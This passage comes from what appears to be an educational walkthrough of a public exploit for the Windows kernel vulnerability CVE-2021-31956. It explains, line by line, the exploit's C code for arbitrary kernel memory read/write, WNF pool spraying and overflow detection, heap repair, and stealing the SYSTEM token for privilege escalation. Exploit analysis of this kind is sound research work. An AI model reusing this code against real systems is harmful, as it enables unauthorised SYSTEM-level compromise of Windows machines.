    IN HANDLE               ProcessHandle,
    IN PVOID                BaseAddress,
    IN PVOID                Buffer,
    IN ULONG                NumberOfBytesToWrite,
    OUT PULONG              NumberOfBytesWritten OPTIONAL
);
```

We are looking at the type definition for `NWVM` as a function prototype
for `_NtWriteVirtualMemory` does not exist in this file and it seems
what the author did was use the NULL-pointer declaration and
type-casting

```cpp
NWVM _NtWriteVirtualMemory = (NWVM)NULL;
```

To create a NULL-pointer named `_NtWriteVirtualMemory` of type `NWVM`
where they then called this pointer in the third to final line in
`write64`:

```cpp
_NtWriteVirtualMemory(GetCurrentProcess(), (PVOID)addr, buf, 0x8, &wrote);
```

As we can see from the `NWVM` datatype type definition, we have the
following observations:

* The returned handle from `GetCurrentProcess()` is passed as `ProcessHandle`.
* The void pointer `addr` provided as the first input value is passed as `BaseAddress`.
* The Unsigned 64-bit integer pointer `buf` is passed as `Buffer` which has the void pointer datatype.
* The hexadecimal value `0x8` is passed as the Unsigned Long `NumberOfBytesToWrite`.
* The memory address `&wrote` is passed as the output buffer `NumberOfBytesWritten`.

Interestingly enough, since `_NtWriteVirtualMemory` was not called as a
function, but rather as a pointer to a structure, the return value is
not assigned to a variable within the function. Instead after calling
`_NtWriteVirtualMemory`, the function simply returns with no return
value.

Based on our analysis, we can conclude that the purpose of this function is to call `NtWriteVirtualMemory` and subsequently write the content `buf` at the location `addr`. 

### The read64 Function

[Return to Top](#table-of-contents)

Looking at the `read64` function declaration, we see that it accepts a
Unsigned Long pointer called `addr` as input and returns a Unsigned
64-bit integer:

```
UINT64 read64(ULONG_PTR addr)
```

Next, as with the `write64` function, we notice that a `char` array and
a Unsigned Long value are declared with the `buf` character array being
initialized to `0`:

```cpp
char    buf[8] = { 0 };
ULONG   read;
```

Before examining the NULL-pointer function call, let's look at the pointer type definition for `NRVM`: 

```cpp
typedef NTSTATUS (NTAPI *NRVM)(
    IN HANDLE               ProcessHandle,
    IN PVOID                BaseAddress,
    OUT PVOID               Buffer,
    IN ULONG                NumberOfBytesToRead,
    OUT PULONG              NumberOfBytesReaded OPTIONAL
);
```

Here, we see a similar structure to that of `_NtWriteVirtualMemory`. As such, we won't go into as much detail except to break down the values passed from `writ64` to the NULL-pointer function call: 

```cpp
_NtReadVirtualMemory(GetCurrentProcess(), (PVOID)addr, buf, 0x8, &read);
```

We can see the following:

* The `HANDLE` from `GetCurrentProcess()` is passed as `ProcessHandle`.
* The `addr` provided as input to `write64` function is passed as the `BaseAddress`. 
* The initialized buffer `buf` is then passed as the output buffer `Buffer`. 
* The value `0x8` is passed as the `NumberOfBytesToRead`.
* The address to the Unsigned Long value `read` is passed as `&read`.

Finally, the `write64` function returns a pointer to the Unsigned 64-bit integer output buffer `buf`:

```cpp
return *(UINT64 *)buf;
```

In conclusion, our analysis shows that the purpose of this function is call `NtReadVirtualMemory` and return the contents `buf` from the address `addr`.

### The fix_runrefs Function

[Return to Top](#table-of-contents)

Reviewing the [blog post by Y3A](https://y3a.github.io/2022/09/03/cve-2021-31956/), we see that the `fix_runrefs` function is used to clean up the heap after exploiting CVE-2021-31956. 

Reviewing the exploitation process covered in [Exploitation Overview](#exploitation-overview), We notice that in order to overwrite the target `StateData` pointer, the preceding members in the `_WNF_NAME_INSTANCE` data structure may also be overwritten. Reviewing the `_WNF_NAME_INSTANCE` data structure from the [Vergilius Project](https://www.vergiliusproject.com/kernels/x64/Windows%2011/21H2%20(RTM)/_WNF_NAME_INSTANCE), we see the following: 

```cpp
//0xa8 bytes (sizeof)
struct _WNF_NAME_INSTANCE
{
    struct _WNF_NODE_HEADER Header;                                         //0x0
    struct _EX_RUNDOWN_REF RunRef;                                          //0x8
    struct _RTL_BALANCED_NODE TreeLinks;                                    //0x10
    struct _WNF_STATE_NAME_STRUCT StateName;                                //0x28
    struct _WNF_SCOPE_INSTANCE* ScopeInstance;                              //0x30
    struct _WNF_STATE_NAME_REGISTRATION StateNameInfo;                      //0x38
    struct _WNF_LOCK StateDataLock;                                         //0x50
    struct _WNF_STATE_DATA* StateData;                                      //0x58
    ULONG CurrentChangeStamp;                                               //0x60
    VOID* PermanentDataStore;                                               //0x68
    struct _WNF_LOCK StateSubscriptionListLock;                             //0x70
    struct _LIST_ENTRY StateSubscriptionListHead;                           //0x78
    struct _LIST_ENTRY TemporaryNameListEntry;                              //0x88
    struct _EPROCESS* CreatorProcess;                                       //0x98
    LONG DataSubscribersCount;                                              //0xa0
    LONG CurrentDeliveryCount;                                              //0xa4
}; 
```

As we can see, the `RunRef` member is located at an offset lower than that of `StateData`. As a result, it is possible for the `RunRef` member to be set to an invalid value during the exploitation process. If this is the case, the target system may crash and result in a Blue Screen of Death (BSOD). In order to prevent this from happening, the `fix_runrefs` function locates all affected `_WNF_NAME_INSTANCE` in memory by traversing the `WnfContext` field within our process's `_EPROCESS`. Once a `_WNF_NAME_INSTANCE` block is found, the `RunRef` member is set to `0`. This is done since the `RunRef` member is a reference counter and by setting it to zero, we can avoid any issues if the system ever tries to use the this field. 

Examining the function declaration for `fix_runrefs`, we see the following: 

```cpp
NTSTATUS fix_runrefs(_In_ PWNF_PROCESS_CONTEXT ctx)
```

The first thing we notice the [SAL Annotation](https://learn.microsoft.com/en-us/previous-versions/visualstudio/visual-studio-2012/hh916383(v=vs.110)?redirectedfrom=MSDN) `_In_`. SAL Annotation, or Source-code Annotation Language, is defined by Microsoft as: 

> A set of annotations that you can use to describe how a function uses its parameters, the assumptions that it makes about them, and the guarantees that it makes when it finishes. Visual Studio code analysis for C++ uses SAL annotations to modify its analysis of functions. [...] Simply stated, SAL is an inexpensive way to let the compiler check your code for you.

According to Microsoft, `_In_` or Input to called function, is used as a way to label data as: 

> Being passed to the called function, and is treated as read-only. 

Next, we examine the pointer declaration for `PWNF_PROCESS_CONTEXT`:

```cpp
typedef struct _WNF_PROCESS_CONTEXT
{
    struct _WNF_NODE_HEADER Header;                                         //0x0
    struct _EPROCESS *Process;                                              //0x8
    struct _LIST_ENTRY WnfProcessesListEntry;                               //0x10
    VOID *ImplicitScopeInstances[3];                                        //0x20
    struct _WNF_LOCK TemporaryNamesListLock;                                //0x38
    struct _LIST_ENTRY TemporaryNamesListHead;                              //0x40
    struct _WNF_LOCK ProcessSubscriptionListLock;                           //0x50
    struct _LIST_ENTRY ProcessSubscriptionListHead;                         //0x58
    struct _WNF_LOCK DeliveryPendingListLock;                               //0x68
    struct _LIST_ENTRY DeliveryPendingListHead;                             //0x70
    struct _KEVENT *NotificationEvent;                                      //0x80
} WNF_PROCESS_CONTEXT, *PWNF_PROCESS_CONTEXT;
```

We now know that the value `ctx` is a pointer to a `_WNF_PROCESS_CONTEXT` structure and is treated as read-only. Now that we have an understanding of the function declaration, let's move onto the function definition for `fix_runrefs`. In particular, let's first examine the first variable definition: 

```cpp
NTSTATUS            status = STATUS_SUCCESS;
```

As shown above, we have a variable `status` of type `NTSTATUS` that contains the value `0x00000000` otherwise known as `STATUS_SUCCESS`. Interestingly enough, this value seemingly does not change and will always return `STATUS_SUCCESS` at the end of the function. Let's move onto the `head` variable:

```cpp
PLIST_ENTRY         head = (PLIST_ENTRY)read64(&(ctx->TemporaryNamesListHead));
```

The next variable is `head`, of type `PLIST_ENTRY`, and is set to the `TemporaryNamesListHead` member of the `_WNF_PROCESS_CONTEXT` structure pointed to by `ctx`. Let's take a moment to further break apart this variable definition. First, let's use the prototype provided by [NirSoft](https://www.nirsoft.net/kernel_struct/vista/LIST_ENTRY.html) to examine the data structure that `PLIST_ENTRY` points to: 

```cpp
typedef struct _LIST_ENTRY
{
     PLIST_ENTRY Flink;
     PLIST_ENTRY Blink;
} LIST_ENTRY, *PLIST_ENTRY;
```

As we can see, `PLIST_ENTRY` points to a `_LIST_ENTRY` structure. In our case, this structure is located at the memory address found in the `TemporaryNamesListHead` member of the `ctx` pointer. Examining the `_WNF_PROCESS_CONTEXT` structure from the [Vergilius Project](https://www.vergiliusproject.com/kernels/x64/Windows%2011/21H2%20(RTM)/_WNF_PROCESS_CONTEXT), we see the following: 

```cpp
//0x88 bytes (sizeof)
struct _WNF_PROCESS_CONTEXT
{
    struct _WNF_NODE_HEADER Header;                                         //0x0
    struct _EPROCESS* Process;                                              //0x8
    struct _LIST_ENTRY WnfProcessesListEntry;                               //0x10
    VOID* ImplicitScopeInstances[3];                                        //0x20
    struct _WNF_LOCK TemporaryNamesListLock;                                //0x38
    struct _LIST_ENTRY TemporaryNamesListHead;                              //0x40
    struct _WNF_LOCK ProcessSubscriptionListLock;                           //0x50
    struct _LIST_ENTRY ProcessSubscriptionListHead;                         //0x58
    struct _WNF_LOCK DeliveryPendingListLock;                               //0x68
    struct _LIST_ENTRY DeliveryPendingListHead;                             //0x70
    struct _KEVENT* NotificationEvent;                                      //0x80
}; 
```

The `TemporaryNamesListHead` is of type `_LIST_ENTRY` and based on the `_LIST_ENTRY` function prototype, we can assume that this value always points to the next `_WNF_NAME_INSTANCE` unless it is the last `_WNF_NAME_INSTANCE` data structure. In that case, the last `_WNF_NAME_INSTANCE` data structure would contain the same address in both the `head` and `next` variables. As briefly discussed, the `next` variable simply points to the address stored in the `head` variable. This is shown below:

```cpp
PLIST_ENTRY         next = read64(head);
```

Finally, the last variable definition in the `fix_runrefs` is below: 

```cpp
PWNF_NAME_INSTANCE  cur = CONTAINING_RECORD(next, WNF_NAME_INSTANCE, TemporaryNameListEntry);
```

Here, we see that a variable called `cur` is a pointer to a `_WNF_NAME_INSTANCE` structure that contains the data structure pointed to by `TemporaryNameListEntry`. Based on the context of it's use, we can see that the pointer `cur` is used as a way to modify the `RunRef` member of any corrupted `_WNF_NAME_INSTANCE` data structures. We see this in action below: 

```cpp
for (; next != head; next = read64(next), cur = CONTAINING_RECORD(next, WNF_NAME_INSTANCE, TemporaryNameListEntry))
    
    if ((UINT64)read64(&(cur->Header)) != (UINT64)0x0000000000A80903) {
        write64(&(cur->Header), (UINT64)0x0000000000A80903);
        write64(&(cur->RunRef), (UINT64)0x0000000000000000);
    }
```

As shown above, each `_WNF_NAME_INSTANCE` data structure is iteratively pointed to by `cur` and the `Header` member is read. If the `Header` member is not equal to the sane value `0x0000000000A80903`, we then change both the `Header` member and the `RunRef` member to the sane values `0x0000000000A80903` and `0x0000000000000000`, respectively.

Finally, the `fix_runrefs` function outputs an update to the screen and returns the previously defined `status`: 

```cpp
puts("[+] Fixed all overwritten header and runrefs");

return status;
```

### The steal_token Function

[Return to Top](#table-of-contents)

According to [MITRE](https://attack.mitre.org/techniques/T1134/), Token Stealing is defined as follows: 

> Adversaries may modify access tokens to operate under a different user or system security context to perform actions and bypass access controls. Windows uses access tokens to determine the ownership of a running process. A user can manipulate access tokens to make a running process appear as though it is the child of a different process or belongs to someone other than the user that started the process. When this occurs, the process also takes on the security context associated with the new token.

With this knowledge, [Mantvydas Baranauskas](https://www.ired.team/offensive-security/privilege-escalation/t1134-access-token-manipulation) provides a high-level overview of how Token Stealing is generally carried out: 

> 1. Open a process with access token you want to steal
> 2. Get a handle to the access token of that process
> 3. Make a duplicate of the access token present in that process
> 4. Create a new process with the newly acquired access token

Now that we know the general process attackers use in Token Stealing, we can adapt that methodology to how the `steal_token` function works. To start things off, let's first examine the `steal_token` function declaration:

```cpp
NTSTATUS steal_token(_In_ PEPROCESS own_eproc)
```

We see that the `steal_token` function takes a single read-only EPROCESS pointer called `own_eproc` and returns an `NTSTATUS` value. We know that `own_eproc` is a pointer to an `EPROCESS` structure since the standard naming convention for pointer variables usually entails the following components: 

* A `P` preceding a structure name.
* The type being in all capital letters. 

Moving on, we will now examine the first variable definition:

```cpp
NTSTATUS            status = STATUS_UNSUCCESSFUL;
```

The first variable, `status` is of type `NTSTATUS` and is initially set to the `STATUS_UNSUCCESSFUL` value `0xC0000001`. However, if the `steal_token` function locates the SYSTEM process (`0x4`), the `status` value will be set to `STATUS_SUCCESS`. The following variable defined, `next` is shown below: 

```cpp
PLIST_ENTRY         next = (PLIST_ENTRY)read64(&(own_eproc->ActiveProcessLinks));
```

The `next` variable is a pointer to a `_LIST_ENTRY` structure which contains the `_LIST_ENTRY` data structure stored in the `ActiveProcessLinks` member of the `own_eproc` input pointer. This is important as `ActiveProcessLinks` can be used recursively to obtain the memory address of the next EPROCESS data structure in memory.

```cpp
PEPROCESS           cur = CONTAINING_RECORD(next, EPROCESS, ActiveProcessLinks);
```

Our next variable, `cur` is a pointer to an EPROCESS structure. According to [Microsoft](https://learn.microsoft.com/en-us/windows/win32/api/ntdef/nf-ntdef-containing_record):

> The `CONTAINING_RECORD` macro returns the base address of an instance of a structure given the type of the structure and the address of a field within the containing structure.

The `CONTAINING_RECORD` macro prototype is: 

```cpp
void CONTAINING_RECORD(
   address,
   type,
   field
);
```

Thus, the `cur` variable is a pointer to an EPROCESS structure that contains the `next` address pointing to the `ActiveProcessLinks` field. Within the `CVE-2021-31956.h` header file, we see that both `EPROCESS` and `ActiveProcessLinks` are defined as part of an abridged version of `_EPROCESS`: 

```cpp
typedef struct
{
    char padding1[0x440];
    UINT64 UniqueProcessId;
    LIST_ENTRY ActiveProcessLinks;
    char padding2[0x60];
    EX_FAST_REF Token;
    char padding3[0x3a8];
    PWNF_PROCESS_CONTEXT WnfContext;
} EPROCESS, *PEPROCESS;
```

Here, we see that the `typedef` is not overwriting the `_EPROCESS` function prototype. Rather, it is simply creating a skeleton to be assigned as `EPROCESS` and by `PEPROCESS`. Now that we have defined all variable assignments within the `steal_token` function, we will now proceed onto the main `for` loop:  

```cpp
for (; cur != own_eproc; next = (PLIST_ENTRY)read64(next), cur = CONTAINING_RECORD(next, EPROCESS, ActiveProcessLinks))
    if ((UINT64)read64(&(cur->UniqueProcessId)) == (UINT64)0x4) {
        write64(&(own_eproc->Token), read64(&(cur->Token)));
        status = STATUS_SUCCESS;
        puts("[+] Stole system token!");
        goto out;
    }
```

Since the `ActiveProcessLinks` structure is a circular doubly-linked list, the `for` loop will terminate if the current EPROCESS is equal to our own EPROCESS. So long as this is not the case, the `next` variable is set to point to the `cur` EPROCESS' `ActiveProcessLinks` address. Then, the `cur` EPROCESS is updated to the EPROCESS pointed to by the `next` variable. This in-turn allows the `for` loop to execute the `if` condition on every EPROCESS in memory. 

The `UniqueProcessId` for the SYSTEM EPROCESS is equal to `0x4`. Therefore, the `if` condition checks if the `cur` EPROCESS has a `UniqueProcessId` of `0x4`. If so, the `Token` member of the `own_eproc` EPROCESS, which is our own EPROCESS, will be overwritten with the `Token` member of the `cur` EPROCESS. The `status` value will then set to `STATUS_SUCCESS` and the `for` loop will break via the `goto out` statement.

If there is no EPROCESS that has a `UniqueProcessId` of `0x4`, a `log_warn` message will be issued and the `STATUS_UNSUCCESSFUL` status will be returned. However, if the `goto out` statement is executed, the program will skip the `log_warn` line and proceed to the `out:` section of code and return the `STATUS_SUCCESS` value:

```cpp
    log_warn("Unable to find system process token");

out:
    return status;
```

### The write_pool Function

[Return to Top](#table-of-contents)

To start things off, let's go back to Alex Plaskett's [blog post](https://research.nccgroup.com/2021/07/15/cve-2021-31956-exploiting-the-windows-kernel-ntfs-with-wnf-part-1/) and review the work already done in reversing the functionality used to write controlled pool allocations. First off, as we recall, the `AllocatedSize` and `DataSize` members of the `_WNF_STATE_DATA` structure are excellent read/write primitives for any pool allocations made after the corrupted `_WNF_STATE_DATA` structure:

```cpp
struct _WNF_STATE_DATA
{
    struct _WNF_NODE_HEADER Header;                                         //0x0
    ULONG AllocatedSize;                                                    //0x4
    ULONG DataSize;                                                         //0x8
    ULONG ChangeStamp;                                                      //0xc
}; 
```

Now, there exists a user-mode accessible function call named `NtUpdateWnfStateData` that can allocate a `_WNF_STATE_DATA` chunk in the pool. This is done to conduct a heap spray in order to increase the likelihood that the vulnerable NTFS buffer is place right before a `_WNF_STATE_DATA` buffer in memory. With the theory out of the way, let's take a look at the function declaration for `write_pool`:

```cpp
NTSTATUS write_pool(_In_ PWNF_STATE_NAME statenames, _In_ ULONG idx, _In_ char *buf, _In_ ULONG buf_sz)
```

We see that `write_pool` returns an `NTSTATUS` value and takes 4 parameters: 

* `statenames`: A read-only pointer to a `WNF_STATE_NAME` structure. However, based on the usage by the `main` function, `statenames` is a collection of `WNF_STATE_NAME` structures where the index `idx` points to a specific `WNF_STATE_NAME` structure.
* `idx`: A read-only unsigned long value.
* `buf`: A read-only pointer to a character buffer.
* `buf_sz`: A read-only unsigned long value.

Before continuing, it's important to note that the `WNF_STATE_NAME` structure is the target for our read primitive, as with access to the `WNF_STATE_NAME` structure, we can get a pointer to the `WNF_STATE_DATA` buffer which would then allow us to write anywhere in memory.

Let's proceed to the variable initializations:

```cpp
NTSTATUS                status = STATUS_SUCCESS;
UINT64                  name = 0;
```

Let's now define each variable's purpose within `write_pool`:

* `status` is initialized to the value `STATUS_SUCCESS` and is of type `NTSTATUS`.
* `name` is a unsigned 64-bit integer initialized to the value `0`.

Now that the two variables `status` and `name` are initialized, let's proceed to examine how they are updated: 

```cpp
name = (UINT64)(*(UINT64 *)(statenames[idx].Data));
status = _NtUpdateWnfStateData((PCWNF_STATE_NAME)&name, buf, buf_sz, NULL, NULL, 0, 0);
```

We see the following:

* `name` is set to the `Data` field of the `_WNF_STATE_NAME` at the index `idx`.
* `status` is set to the `NTSTATUS` returned by the `_NtUpdateWnfStateData` function call.

Let's further examine the `_NtUpdateWnfStateData` function call. First, we recall the following NULL pointer declaration:

```cpp
NUWSD _NtUpdateWnfStateData = (NUWSD)NULL;
```

As `_NtUpdateWnfStateData` uses a custom datatype, let's look the custom datatype's prototype:

```cpp
typedef NTSTATUS(NTAPI *NUWSD)(
    _In_ PWNF_STATE_NAME StateName,
    _In_reads_bytes_opt_(Length) const VOID *Buffer,
    _In_opt_ ULONG Length,
    _In_opt_ PCWNF_TYPE_ID TypeId,
    _In_opt_ const PVOID ExplicitScope,
    _In_ WNF_CHANGE_STAMP MatchingChangeStamp,
    _In_ ULONG CheckStamp
    );
```

We notice the similarity to the function prototype of `NtUpdateWnfStateData`:

```cpp
NTSTATUS
NTAPI
NtUpdateWnfStateData(
    _In_ PCWNF_STATE_NAME StateName,
    _In_reads_bytes_opt_(Length) const VOID* Buffer,
    _In_opt_ ULONG Length,
    _In_opt_ PCWNF_TYPE_ID TypeId,
    _In_opt_ const PVOID ExplicitScope,
    _In_ WNF_CHANGE_STAMP MatchingChangeStamp,
    _In_ LOGICAL CheckStamp
    );
```

However, in the case of the custom datatype, it appears to simply be used as a means to set up a datatype to then be resolved by `GetProcAddress`. Due to ASLR/kASLR, it is no longer realistic to predict the base address of a function. Therefore, by simply creating a NULL pointer definition, we can define the structure prior to finding the function in memory.


Let's now proceed to the `return` conditions:

```cpp
if (!NT_SUCCESS(status)) {
    log_warn("write_pool::_NtUpdateWnfStateData()1");
    goto out;
}

puts("[+] Successfully updated adjacent WNF_NAME_INSTANCE");

out:
    return status;
```

We notice that if the `_NtUpdateWnfStateData` returns `STATUS_SUCCESS`, `write_pool` simply returns the `status` value `STATUS_SUCCESS` and outputs a `puts` message to the screen. However, if `status` is not equal to `STATUS_SUCCESS`, `write_pool` outputs a `log_warn` message and returns the `status` value. 

#### Sandbox Constraints

One thing to keep in mind is that the `_NtUpdateWnfStateData` function is unavailable when operating in Low Integrity.

### The read_pool Function

[Return to Top](#table-of-contents)

Next, in order to read from the pool, we will examine how to use `NtQueryWnfStateData` to achieve this. According to [Nacho Gomez](https://pwnedcoffee.com/blog/wnf-chronicles-i-introduction/), we can define the purpose of `NtQueryWnfStateData` as follows:

> Using the NtQueryWnfStateData API, any process can access the latest StateData published for a given StateName at any time (as long as it has read privileges over the StateName’s ACL), without being subscribed.

This goes in-line with the functionality of `read_pool`. Now with the purpose of `read_pool` laid out, let's go over its function declaration:

```cpp
NTSTATUS read_pool(_In_ PWNF_STATE_NAME statenames, _In_ ULONG idx, _Out_ char *buf, _Inout_ PULONG buf_sz)
```

As shown above, the `read_pool` function returns a `NTSTATUS` value and accepts 4 parameters as input. We will now go over the purpose of each parameter: 

* `statenames`: A read-only pointer to a `WNF_STATE_NAME` structure. However, based on the usage by the `main` function, `statenames` is a collection of `WNF_STATE_NAME` structures where the index `idx` points to a specific `WNF_STATE_NAME` structure.
* `idx`: A read-only unsigned long value.
* `buf`: A reference to a character buffer.
* `buf_sz`: A modifiable pointer to a unsigned long value.

With each parameter defined, we will now look at the variable initializations: 

```cpp
NTSTATUS                status = STATUS_SUCCESS;
WNF_CHANGE_STAMP        stamp = 0;
UINT64                  name = 0;
```

We see each of the above variables are initialized to `0`, with both the `stamp` an `name` values being passed as references to the `_NtQueryWnfStateData` function call. Now with the initializations out of the way, let's look at how `read_pool` modifies the `name` variable:

```cpp
name = (UINT64)(*(UINT64 *)(statenames[idx].Data));
```

Here, we see that at index `idx` within the `statenames` collection of `WNF_STATE_NAME` structures allocated in memory, we read the `Data` value. Next, let's examine the usage and background of the `_NtQueryWnfStateData` function call:

```cpp
status = _NtQueryWnfStateData((PCWNF_STATE_NAME)&name, NULL, NULL, &stamp, buf, buf_sz);
if (!NT_SUCCESS(status)) {
    log_warn("read_pool::_NtQueryWnfStateData()1");
    goto out;
}
```

First, let's look at the function prototype for `_NtQueryWnfStateData`: 

```cpp
_NtQueryWnfStateData = (NQWSD)GetProcAddress(ntdll, "NtQueryWnfStateData");
```

Let's examine the function prototype the custom pointer data structure is based on: 

```cpp
typedef NTSTATUS(NTAPI *NQWSD)(
    _In_ PCWNF_STATE_NAME StateName,
    _In_opt_ PCWNF_TYPE_ID TypeId,
    _In_opt_ const VOID *ExplicitScope,
    _Out_ PWNF_CHANGE_STAMP ChangeStamp,
    _Out_writes_bytes_to_opt_(*BufferSize, *BufferSize) PVOID Buffer,
    _Inout_ PULONG BufferSize
    );
```

With the exception of the `_In_opt_` variables which are set to `NULL`, referencing the above prototype, we look at the provided input parameters, we break each one down according to it's purpose: 

* `name`: A read-only address to the `WNF_STATE_NAME` structure at index `idx`. 
* `stamp`: A memory address to our zero-initialized `WNF_CHANGE_STAMP` structure.
* `buf`: An optional pointer to an array of `buf_sz` elements. 

Finally, after calling `NtQueryWnfStateData` the `read_pool` function returns the `NTSTATUS` value from the `NtQueryWnfStateData` function call:

```cpp
out:
    return status;
```

#### Sandbox Constraints

One thing to keep in mind is that the `GetProcAddress` function is unavailable when operating in Low Integrity.

### The find_chunk Function

[Return to Top](#table-of-contents)

Before delving into the `find_chunk` function, let's first take a look at its implementation within the `main` function:

```cpp
if (!NT_SUCCESS(resolve_symbols()))
        goto out;

if (!NT_SUCCESS(get_eproc(&own_eproc)))
    goto out;

if (!NT_SUCCESS(spray_heap(statenames, SPRAY_COUNT, &buf, sizeof(buf))))
    goto out;

if (!NT_SUCCESS(fragment_heap(statenames, SPRAY_COUNT)))
    goto out;

if (!NT_SUCCESS(overflow_chunk(OVERFLOW_SZ, OVERFLOW_DATA, OVERFLOW_SZ)))
    goto out;

while (!NT_SUCCESS(find_chunk(statenames, SPRAY_COUNT, &buf, &buf_sz, &overflow_idx)))
    if (!NT_SUCCESS(overflow_chunk(OVERFLOW_SZ, OVERFLOW_DATA, OVERFLOW_SZ)))
        goto out;
```

Here we see that after the paged heap is sprayed, fragmented, and overflowed, we then proceed to use the `find_chunk` function. Let's look at the variables used in the function call to `find_chunk`: 

```cpp
//CVE-2021-31956.h
#define SPRAY_COUNT 0x20000
//...
typedef struct _WNF_STATE_NAME
{
    ULONG Data[2];
} WNF_STATE_NAME, *PWNF_STATE_NAME, *PCWNF_STATE_NAME;
//...

//CVE-2021-31956.c
PWNF_STATE_NAME         statenames = zalloc(SPRAY_COUNT * sizeof(WNF_STATE_NAME));
char                    buf[0xa0] = { 0 };
ULONG                   buf_sz = sizeof(buf);
ULONG                   overflow_idx = 0;
//...
```

Let's now summarize the purpose of `find_chunk` with relation to how the key variable and structural definitions are used: 

> The `statenames` pointer is iterated over at index 0 in order to obtain the `statenames` index at which the overflow occurs. Once the overflow is found, the `overflow_idx` is returned, containing the `WNF_STATE_NAME` index that is found to be overflowed.

With the summary out of the way, let's examine the `find_chunk` function line-by-line starting with the function declaration:

```cpp
NTSTATUS find_chunk(_In_ PWNF_STATE_NAME statenames, _In_ UINT64 count, _Out_ char *buf, _Inout_ PULONG buf_sz, _Out_ PULONG idx)
```

Let's formally break down each of the input parameters for the `find_chunk` function: 

* `statenames`: A read-only pointer to a series of `WNF_STATE_NAME` structures. Of which, one of the structures may be overflowed as thus exploitable.
* `count`: A read-only 64-bit unsigned integer specifying the number of `WNF_STATE_NAME` structures sprayed.
* `buf`: A reference to the sprayed buffer.
* `buf_sz`: A modifiable pointer to a unsigned long value indicating the size of the sprayed buffer `buf`.
* `idx`: A pointer to the unsigned long value location for the index of the overflowed `WNF_STATE_NAME` structure.

Now that we have defined the input parameters of the `find_chunk` function, let's now examine the variable declarations for `find_chunk`: 

```cpp
NTSTATUS                status = STATUS_SUCCESS;
WNF_CHANGE_STAMP        stamp = 0;
UINT64                  name = 0;
int                     overflow = -1;
```

As with the input parameters, let's formally define the use of each of the variables defined: 

* `status`: A `NTSTATUS` value used to determine whether or not a `WNF_STATE_DATA` structure was found to be overflowed.

Before in order to fully understand the `stamp` variable that defined next, let's examine the `WNF_CHANGE_STAMP` data structure: 

```cpp
typedef ULONG WNF_CHANGE_STAMP, *PWNF_CHANGE_STAMP;
```

We see that the `stamp` is really just a unsigned long value. However, in the context of the `find_chunk` function, stamp is used as part of the `_NtQueryWnfStateData` function call. Therefore, let's examine the NULL-pointer declaration for `_NtQueryWnfStateData`:

```cpp
_NtQueryWnfStateData = (NQWSD)GetProcAddress(ntdll, "NtQueryWnfStateData");
```

With this in mind, let's now look at the type definition for `NQWSD`:

```cpp
typedef NTSTATUS(NTAPI *NQWSD)(
    _In_ PCWNF_STATE_NAME StateName,
    _In_opt_ PCWNF_TYPE_ID TypeId,
    _In_opt_ const VOID *ExplicitScope,
    _Out_ PWNF_CHANGE_STAMP ChangeStamp,
    _Out_writes_bytes_to_opt_(*BufferSize, *BufferSize) PVOID Buffer,
    _Inout_ PULONG BufferSize
    );
```

We see that the `stamp` variable used is actually a reference for the `_NtQueryWnfStateData` function call to output the `ChangeStamp` value to. In layman's terms, the `stamp` variable is used by the `find_chunk` function to hold the `ChangeStamp` value of every `WNF_STATE_NAME` iterated. Each `ChangeStamp` value stored in `stamp` will then be checked for the magic value of `0x5000`. If found, `find_chunk` will return a `NTSTATUS` value of `STATUS_SUCCESS`. If not, `find_chunk` will return a value of `STATUS_UNSUCCESSFUL`. 

Let's now proceed to the final two variables defined in `find_chunk`:

* `name`: A unsigned integer, initialized to 0, that contains a pointer to the `Data` member of each `WNF_STATE_NAME`. When used by `_NtQueryWnfStateData`, it will serve as a reference to the specific `WNF_STATE_NAME` used by `find_chunk` to test if the `ChangeStamp` value has been corrupted or not. 
* `overflow`: A integer, initialized to -1, that will be set to the index of the corrupted `WNF_STATE_NAME` if found.

With both the function declaration and the variable definitions examined, let's now look into the `for` loop used to iterate over each `WNF_STATE_NAME` structure created during the heap spray:

```cpp
for (int i = 0; i < count; i++)
{
    if (!statenames[i].Data[0])
        continue;
        //...
}
```

The `for` loop starts by first checking if the `Data` member is valid. If it is not, continue to the next `WNF_STATE_NAME` chunk.

```cpp
for (int i = 0; i < count; i++)
{
    //...
    name = (UINT64)(*(UINT64 *)(statenames[i].Data));
    //...
}
```

Here, the `name` variable is pointed to the `Data` member of the ith `WNF_STATE_NAME` chunk.

```cpp
for (int i = 0; i < count; i++)
{
    //...
    status = _NtQueryWnfStateData((PCWNF_STATE_NAME)&name, NULL, NULL, &stamp, buf, buf_sz);
    //...
}
```

Next, the `NtQueryWnfStateData` function is called in order to obtain the `ChangeStamp` value of the ith `WNF_STATE_NAME` chunk. 

```cpp
for (int i = 0; i < count; i++)
{
    //...
    if ((ULONG)stamp == 0x5000) {
        overflow = i; // found our overflow chunk index
        printf("[+] Successfully overflowed into a WNF_STATE_DATA chunk at index 0x%x\n", overflow);
        break;
    }
    //...
}
```

The `ChangeStamp` value is then checked against the magic number `0x5000` to determine if the `WNF_STATE_NAME` is corrupted. If the `ChangeStamp` is equal to `0x5000`, the `overflow` variable is set to the index `i` and the `for` loop is broken.

```cpp
for (int i = 0; i < count; i++)
{
    //...
    if (!NT_SUCCESS(status)) {
        log_warn("find_chunk::_NtQueryWnfStateData()1");
        goto out;
    }
}
```

However, if the `NTSTATUS` variable `status` is not equal to `STATUS_SUCCESS`, the program breaks and goes to the `out` designated portion of the program. In other words, if the `NtQueryWnfStateData` function call fails for whatever reason, the program breaks and goes to `out`. 

```cpp
if (overflow == -1) {
    // means we corrupted a wnf name instance instead of name header, should overflow again.
    // we will fix these corrupted wnf name instances in the end.
    log_warn("Did not overflow a WNF_STATE_DATA chunk, overflow again!");
    status = STATUS_UNSUCCESSFUL;
    goto out;
}
else
    status = STATUS_SUCCESS;
```

After the `for` loop completes, if the `overflow` variable is not set to the ith index, the corrupted `WNF_STATE_DATA` chunk was not found and the `NTSTATUS` variable `status` is set to `STATUS_UNSUCCESSFUL` and the program goes to `out`. However, if the `overflow` variable was set to the ith index of the `WNF_STATE_DATA` chunks, the program sets the `status` variable to `STATUS_SUCCESS`. 

```cpp
*idx = overflow;

out:
    return status;
```

The pointer `idx` is set to the corrupted `WNF_STATE_DATA` index and the `status` is returned to the callee.

### The overflow_chunk Function

[Return to Top](#table-of-contents)

Before discussing the specifics of the `overflow_chunk` function, let's first review how exactly the vulnerability can be reached from user-mode. According to the previously-covered advisory, this can be achieved through a `ntoskrnl.exe` *system call* (syscall). Therefore, we want to find any syscalls related to extended attributes (`Ea`). After looking through the [Windows x64 syscall table](https://hfiref0x.github.io/NT10_syscalls.html) provided by [hfiref0x](https://hfiref0x.github.io/), we find the following two entries: 

